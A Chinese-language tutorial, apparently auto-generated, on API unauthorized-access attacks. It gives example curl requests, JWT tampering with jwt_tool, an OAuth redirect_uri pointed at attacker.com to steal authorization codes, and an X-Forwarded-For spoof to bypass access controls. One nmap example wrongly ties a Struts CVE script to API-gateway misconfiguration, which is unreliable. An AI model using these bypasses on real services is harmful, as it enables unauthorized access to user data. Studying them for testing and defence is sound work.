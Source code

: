 # 接口未授权访问的攻击技术

## 1. 技术原理解析

### 1.1 什么是接口未授权访问？
接口未授权访问（Unauthorized Access to APIs）是指攻击者通过绕过身份验证或授权机制，直接访问本应受保护的API接口，从而获取敏感数据或执行未授权的操作。这种漏洞通常由于开发者在设计或实现API时，未能正确实施身份验证、授权或访问控制机制。

### 1.2 底层实现机制
API接口通常通过HTTP/HTTPS协议进行通信，常见的身份验证机制包括：
- **API Key**：通过API Key进行身份验证，但若Key泄露或未正确验证，可能导致未授权访问。
- **OAuth**：通过OAuth协议进行授权，但若授权流程存在缺陷，攻击者可能绕过授权。
- **JWT（JSON Web Token）**：通过JWT进行身份验证，但若JWT未正确验证或签名机制存在漏洞，可能导致未授权访问。

### 1.3 常见漏洞成因
- **缺乏身份验证**：API接口未实施任何身份验证机制。
- **弱身份验证**：使用弱密码、默认凭证或未加密的API Key。
- **授权绕过**：通过修改请求参数、路径或头信息，绕过授权检查。
- **错误配置**：服务器或API网关的错误配置，如未限制访问权限或未启用HTTPS。

## 2. 常见攻击手法和利用方式

### 2.1 直接访问未受保护的API
**描述**：攻击者直接访问未实施任何身份验证或授权机制的API接口。
**利用方式**：
- 使用工具如Postman、cURL直接发送请求。
- 通过浏览器开发者工具查看网络请求，获取API端点。

**示例**：
```bash
curl -X GET http://example.com/api/v1/users
```

### 2.2 修改请求参数绕过授权
**描述**：攻击者通过修改请求参数、路径或头信息，绕过授权检查。
**利用方式**：
- 修改用户ID、角色或其他敏感参数。
- 添加或修改头信息，如`X-Forwarded-For`、`Authorization`。

**示例**：
```bash
curl -X GET http://example.com/api/v1/users/123 -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."
```

### 2.3 利用JWT漏洞
**描述**：攻击者通过篡改或伪造JWT，绕过身份验证。
**利用方式**：
- 修改JWT中的用户角色或权限。
- 使用弱签名算法或未验证签名的JWT。

**示例**：
```bash
# 使用jwt_tool工具篡改JWT
python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9... -T
```

### 2.4 利用OAuth授权流程缺陷
**描述**：攻击者通过利用OAuth授权流程中的缺陷，获取未授权访问权限。
**利用方式**：
- 伪造重定向URI，获取授权码。
- 利用CSRF漏洞，劫持用户会话。

**示例**：
```bash
# 伪造重定向URI
http://example.com/oauth/authorize?client_id=123&redirect_uri=http://attacker.com
```

### 2.5 利用API网关错误配置
**描述**：攻击者通过利用API网关的错误配置，访问未授权的API接口。
**利用方式**：
- 绕过IP限制或访问控制列表（ACL）。
- 利用未启用的HTTPS，进行中间人攻击。

**示例**：
```bash
# 使用nmap扫描API网关
nmap -p 443 --script http-vuln-cve2017-5638 example.com
```

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
**工具**：
- **Docker**：用于快速搭建实验环境。
- **Postman**：用于发送API请求。
- **Burp Suite**：用于拦截和修改HTTP请求。
- **JWT Tool**：用于篡改和伪造JWT。

**步骤**：
1. 使用Docker搭建一个简单的API服务。
```bash
docker run -d -p 8080:8080 vulhub/unauthorized-api
```
2. 使用Postman发送请求，测试API接口。
3. 使用Burp Suite拦截请求，修改参数或头信息。
4. 使用JWT Tool篡改JWT，测试身份验证机制。

### 3.2 攻击步骤
1. **信息收集**：使用工具如nmap、dirb扫描目标，发现API端点。
```bash
nmap -p 80,443 example.com
```
2. **身份验证绕过**：尝试直接访问API接口，或修改请求参数绕过授权。
```bash
curl -X GET http://example.com/api/v1/users
```
3. **JWT篡改**：使用JWT Tool篡改JWT，测试身份验证机制。
```bash
python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9... -T
```
4. **OAuth授权流程利用**：伪造重定向URI，获取授权码。
```bash
http://example.com/oauth/authorize?client_id=123&redirect_uri=http://attacker.com
```
5. **API网关错误配置利用**：绕过IP限制或访问控制列表（ACL）。
```bash
curl -X GET http://example.com/api/v1/admin -H "X-Forwarded-For: 192.168.1.1"
```

## 4. 实际命令、代码或工具使用说明

### 4.1 cURL命令
```bash
# 直接访问API接口
curl -X GET http://example.com/api/v1/users

# 添加头信息
curl -X GET http://example.com/api/v1/users -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."

# 修改请求参数
curl -X GET http://example.com/api/v1/users/123
```

### 4.2 JWT Tool
```bash
# 安装JWT Tool
git clone https://github.com/ticarpi/jwt_tool.git
cd jwt_tool

# 篡改JWT
python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9... -T
```

### 4.3 Burp Suite
1. 启动Burp Suite，配置代理。
2. 使用浏览器或Postman发送请求，拦截并修改请求。
3. 修改请求参数或头信息，测试授权绕过。

### 4.4 nmap
```bash
# 扫描目标
nmap -p 80,443 example.com

# 使用脚本扫描漏洞
nmap -p 443 --script http-vuln-cve2017-5638 example.com
```

## 结论
接口未授权访问是一种常见且危险的漏洞，攻击者可以通过多种手法绕过身份验证和授权机制，获取敏感数据或执行未授权的操作。开发者应严格实施身份验证、授权和访问控制机制，定期进行安全审计和漏洞扫描，确保API接口的安全性。

---

*文档生成时间: 2025-03-12 12:48:12*
